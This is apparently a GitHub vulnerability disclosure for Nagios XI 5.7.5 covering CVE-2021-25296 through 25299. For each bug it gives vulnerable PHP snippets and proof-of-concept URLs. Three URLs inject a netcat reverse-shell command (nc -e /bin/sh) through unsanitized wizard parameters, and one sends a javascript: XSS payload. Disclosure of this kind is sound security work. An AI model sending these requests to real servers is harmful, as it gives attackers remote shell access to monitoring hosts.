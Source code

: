 # nagios-xi-5.7.5-bugs
Bugs reported to Nagios XI


## CVE-2021-25296

### Code Location

`/usr/local/nagiosxi/html/includes/configwizards/windowswmi/windowswmi.inc.php`

### Code snippet

```php
if (!empty($plugin_output_len)) {
    $disk_wmi_command .= " --forcetruncateoutput " . $plugin_output_len;
    $service_wmi_command .= " --forcetruncateoutput " . $plugin_output_len;
    $process_wmi_command .= " --forcetruncateoutput " . $plugin_output_len;
}
echo $disk_wmi_command;
// Run the WMI plugin to get realtime info
exec($disk_wmi_command, $disk_output, $disk_return_var);
exec($service_wmi_command, $service_output, $service_return_var);
exec($process_wmi_command, $process_output, $process_return_var);
```

### POC (Works with admin/non-admin authentication)

`https://10.0.2.15/nagiosxi/config/monitoringwizard.php?update=1&nsp=50c0f98fe9018dc43c81672ad1aeed5fd3f9710f013381519e553f846b5c2a86&nextstep=3&wizard=windowswmi&check_wmic_plus_ver=1.65&plugin_output_len=&ip_address=127.0.0.1&domain=127.0.0.1&username=asdf&password=asdf&auth_file=&plugin_output_len=1024; nc -e /bin/sh 127.0.0.1 4444;&submitButton2=`

The `plugin_output_len` variable here is not sanitized and can give `command execution`. Eg: `plugin_output_len=1024; nc -e /bin/sh 127.0.0.1 4444;`


## CVE-2021-25297

### Code Location

`/usr/local/nagiosxi/html/includes/configwizards/switch/switch.inc.php`

### Code Snippet

```php
function switch_configwizard_add_cfg_to_mrtg($address)
{
    // get the data that we need
    $mrtg_confd_dir = "/etc/mrtg/conf.d";
    echo $address;
    $mrtg_cfg_file = "{$address}.cfg";
    $absolute_mrtg_cfg_file = "{$mrtg_confd_dir}/{$mrtg_cfg_file}";
    $cfgmaker_file = switch_configwizard_get_walk_file($address);
    // check if the file already exists for useful debugging
    $mrtg_confd_contents = scandir($mrtg_confd_dir);
    echo "REACHED HERE1";
    if (in_array($mrtg_cfg_file, $mrtg_confd_contents)) {
        debug("{$mrtg_cfg_file} exists in {$mrtg_confd_dir}, overwriting");
    } else {
        debug("{$mrtg_cfg_file} does not exist in {$mrtg_confd_dir}, creating");
    }
    echo "REACHED HERE2";
    // copy the cfgmaker file to the mrtg cfg destination
    echo $cfgmaker_file;
    echo $absolute_mrtg_cfg_file;
    if (!copy($cfgmaker_file, $absolute_mrtg_cfg_file)) {
        debug("Unable to copy from {$cfgmaker_file} to {$absolute_mrtg_cfg_file}");
        return false;
    }
    echo "REACHED HERE3";
    echo $absolute_mrtg_cfg_file;
    // add some meta info to the file
    $infoline = "#### ADDED BY NAGIOSXI (User: ". get_user_attr(0, 'username') .", DATE: ". get_datetime_string(time()) .") ####\n";
    exec("sed -i '1s|.*|{$infoline}&|' $absolute_mrtg_cfg_file");

    return true;
}
```

### POC (Works with admin/non-admin authentication)

```
https://10.0.2.15/nagiosxi/config/monitoringwizard.php?update=1&nsp=4e4f78ca5c24c7c526dc86b23092b81c3231a7bf59e1eb67f9918b8daf7b6de9&nextstep=3&wizard=switch&ip_address=127.0.0.1;nc -e /bin/sh 127.0.0.1 4445;&port=161&snmpversion=2c&snmpopts%5Bsnmpcommunity%5D=public&snmpopts%5Bv3_security_level%5D=authPriv&snmpopts%5Bv3_username%5D=&snmpopts%5Bv3_auth_password%5D=&snmpopts%5Bv3_auth_proto%5D=MD5&snmpopts%5Bv3_priv_password%5D=&snmpopts%5Bv3_priv_proto%5D=DES&portnames=number&scaninterfaces=on&bulk_fields%5B%5D=ip_address&bulk_fields%5B%5D=&bulk_fields%5B%5D=&bulk_options=&bulk_fields%5B%5D=&bulk_fields%5B%5D=&warn_speed_in_percent=50&crit_speed_in_percent=80&warn_speed_out_percent=50&crit_speed_out_percent=80&default_port_speed=100&submitButton2=
```

The `ip_address` variable here is not sanitized and can give `command execution`. Eg: `ip_address=1024; nc -e /bin/sh 127.0.0.1 4444;`


## CVE-2021-25298

### Code path

`/usr/local/nagiosxi/html/includes/configwizards/cloud-vm/cloud-vm.inc.php`

### Code Snippet

```php
case CONFIGWIZARD_MODE_GETSTAGE2HTML:

	//    echo ("reached here ============================");
            // Get variables that were passed to us
            $address = grab_array_var($inargs, "ip_address", ""); // [User input]
            $port = grab_array_var($inargs, "port", "");
            $token = grab_array_var($inargs, "token", "");
            $no_ssl_verify = grab_array_var($inargs, "no_ssl_verify", 1);
            $hostname = grab_array_var($inargs, 'hostname', gethostbyaddr($address));
            $default_mem_units = grab_array_var($inargs, 'default_mem_units', 'Gi');
            $tcp_check_port = grab_array_var($inargs, 'tcp_check_port', '5693');
            $rp_address = nagiosccm_replace_user_macros($address);
            $rp_port = nagiosccm_replace_user_macros($port);
            $rp_token = nagiosccm_replace_user_macros($token);
            $services_serial = grab_array_var($inargs, "services_serial", "");
            if ($services_serial) {
                $services = unserialize(base64_decode($services_serial));
            }
	//    echo $rp_address;
            $not_used = array();
            $return_code = 0;
            $alternative_host_check = false;
            exec('ping -W 2 -c 1 ' . $rp_address, $not_used, $return_code); // [Bug here]
```

### POC (Works with admin/non-admin authentication)

```
https://10.0.2.15/nagiosxi/config/monitoringwizard.php?update=1&nsp=e2401df06a3892ba612df20e1ce2f559d7647c4b5fcba7f64c23c0ea9df1564f&nextstep=4&wizard=digitalocean&no_ssl_verify=1&ip_address=127.0.0.1;nc -e /bin/sh 127.0.0.1 4445;&port=5693&token=123&submitButton2=
```

The `ip_address` variable here is not sanitized and can give `command execution`. Eg: `ip_address=1024; nc -e /bin/sh 127.0.0.1 4444;`


## CVE-2021-25299

### Code Location

`/usr/local/nagiosxi/html/admin/sshterm.php`

### Code Snippet

```php+HTML
<?php if ($efe) { ?>
    <iframe src="<?php echo $url; ?>" style="width: 50%; min-width: 600px; height: 500px;"></iframe>
    <?php } else { ?>
    <div style="color: #FFF; font-size: 14px; font-family: consolas, courier-new; background-color: #000; padding: 2px 6px; overflow-y: scroll; width: 50%; min-width: 600px; height: 500px;">Enterprise features must be enabled</div>
<?php
}
```

### POC

`https://10.0.2.15/nagiosxi/admin/sshterm.php?url=javascript:alert(1)`

The `url` variable is not sanitized and can give `xss` .
